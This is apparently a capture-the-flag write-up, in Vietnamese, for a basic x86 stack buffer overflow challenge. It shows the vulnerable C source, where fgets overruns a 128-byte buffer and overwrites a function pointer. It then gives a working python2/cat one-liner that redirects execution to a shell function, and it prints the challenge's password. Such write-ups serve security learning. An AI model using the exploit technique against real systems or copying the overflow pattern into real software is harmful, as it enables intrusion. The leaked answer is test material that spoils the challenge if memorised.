


# ELF x86 - Stack buffer overflow basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Bài này lại là lỗi `fgets()` cho phép ta đè lên 4 byte phía sau hàm `buf`, nơi chưa địa chỉ của `void (*func)()`. Ta tiến hành đè nó thành địa chỉ của hàm `shell()`. Vì PIE không bật, ta chỉ cần dùng gdb tìm địa chỉ của hàm `shell`. Dùng lệnh `info functions`



Địa chỉ hàm shell là `0x08048516`. Exploit của ta sẽ là:

```bash
cat <(python2 -c "print 'A' * 128 +'\x16\x85\x04\x08'") - | ./ch15
```



password là: `B33r1sSoG0oD4y0urBr4iN`


